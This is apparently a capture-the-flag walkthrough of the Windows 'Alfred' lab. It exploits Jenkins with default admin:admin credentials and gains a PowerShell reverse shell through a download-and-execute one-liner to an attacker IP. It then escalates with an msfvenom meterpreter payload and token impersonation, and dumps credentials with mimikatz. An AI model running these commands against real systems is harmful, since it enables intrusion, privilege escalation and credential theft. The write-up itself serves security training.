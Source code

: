 # Alfred


Exploited Jenkins gained an initial shell, then escalated privileges by exploiting Windows authentication tokens. Deployment of meterpreter with web_delivery. 


![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775160807_image.png)



# Recon
Target: 10.10.230.14

**Nmap scan:**

    nmap -sV -sC -oA nmap/alfred 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766466669_image.png)


**Nmap all ports:**

    nmap -p- nmap/alfred_allports 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767313953_image.png)


Open Port Review:

Port 80 - Microsft IIS httpd 7.5 - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766694659_image.png)


image bruce.jpg and email exposed `alfred@wayneeterprises.com`.

Port 3389 - Remote RDP
Port 8080 - Jetty 9.4.z-SNAPSHOT - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766826381_image.png)


login attempt with `admin:admin` enable access to backend.

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766903480_image.png)


version number exposed as `Jenkins ver. 2.190.1`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767468918_image.png)


Jenkins searchsploit:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767530004_image.png)


## accessing console

discovered console:

    http://10.10.230.14:8080/job/project/1/console

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767075782_image.png)


Under “Build” section of the `/job/project/configure` the “whoami” offers an ability execute commands on the target system.


# Reverse Shell

using nishang `*PowerShellTcp.ps1*` to create a reverse shell:
Github: https://github.com/samratashok/nishang.git

creating webserver on local machine via python3

    python3 -m http.server

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768324089_image.png)


adding powershell command to console “Build” section:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.20.45:8000/PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.20.45 -Port 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768533565_image.png)


Listener setup:
rlwrap allows for (up, down, left, right keyboard commands)

    rlwrap nc -lvnp 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768713613_image.png)

**Connection received:**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768868433_image.png)


**Systeminfo**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771800880_image.png)


**User.txt** 
located: `C:\Users\bruce\desktop\user.txt`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585776055961_image.png)


# Upgrading shell to meterpreter shell

create payload with msfvenom

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=10.8.20.45 LPORT=9001 -f exe -o revshell9001exit.exe

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769169449_image.png)

**Setup multi/handler**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769423692_image.png)

**Download revshell to target**

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.20.45:8000/revshell9001.exe','revshell9001.exe')"

Start process with:

    Start-Process "revshell9001.exe"

(in my case meterpreter would hang and never fully connect to handler. Moved to creating meterpreter session with web_delivery)

**Creating Meterpreter shell via web_delivery**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774103165_image.png)


took the generated code and executed on target:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774177738_image.png)

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774143422_image.png)


**Migrate to higher process**

    ps
    migrate

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774491520_image.png)


elevated:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774529650_image.png)


# Windows User Impersonation

investigate privleages of bruce:

    whoami /priv

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771129738_image.png)


from this we are able exploit as they are enabled:

    SeDebugPrivilege
    SeImpersonatePrivilege 

**Load Incognito + List tokens within meterpreter**

    load incognito
    list_tokens -g

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774715943_image.png)


 **Impersonate token**

    impersonate_token "BUILTIN\Administrators"

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585773873560_image.png)


## root.txt

located at `C:\Windows\System32\config`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775871288_image.png)


# Post Exploitation
## mimikatz extract
    load kiwi
    get_creds

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775978547_image.png)


